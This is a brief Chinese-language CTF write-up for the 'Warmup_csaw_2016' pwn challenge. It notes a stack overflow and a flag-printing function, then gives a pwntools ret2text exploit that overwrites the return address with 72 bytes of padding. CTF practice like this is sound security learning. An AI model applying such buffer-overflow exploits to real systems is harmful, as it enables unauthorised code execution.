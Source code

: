 ```yaml
---
title: "Warmup_csaw_2016"
description: ""
date: 2023-03-30T22:51:11+08:00
lastmod: 2023-03-30T22:51:11+08:00
draft: true
images: []
type: docs
weight: 1
toc: true
---
```


## 0x01 分析

![09d4eedd8bf2501793e6ea0160f22923](images/09d4eedd8bf2501793e6ea0160f22923.png)  

存在溢出点，而且程序里有直接获取flag的函数

![b7018d5d4dd90f510226659cb7e99754](images/b7018d5d4dd90f510226659cb7e99754.png)  

直接简单的ret2text即可拿到flag

## Exploit

```python
from pwn import*
o = process("./pwn")
payload = b'a'*72 + p64(0x40060D)
o.sendline(payload)
o.interactive()
```

![cdba4d8aa3119cfd352b0c47a064d02f](images/cdba4d8aa3119cfd352b0c47a064d02f.png)
